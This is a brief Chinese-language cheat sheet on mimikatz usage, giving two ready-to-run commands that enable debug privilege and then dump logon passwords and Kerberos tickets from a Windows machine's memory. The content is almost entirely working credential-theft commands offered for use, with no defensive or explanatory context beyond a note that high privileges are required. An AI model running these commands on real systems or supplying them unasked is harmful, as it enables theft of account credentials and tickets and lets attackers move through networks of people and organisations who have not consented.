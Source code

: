# mimikatz使用

1. 通用密码提取（需要高权限）

```clike
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

1. 提取存在票据

```bash
.\mimikatz.exe "privilege::debug" "sekurlsa::tickets" exit
```
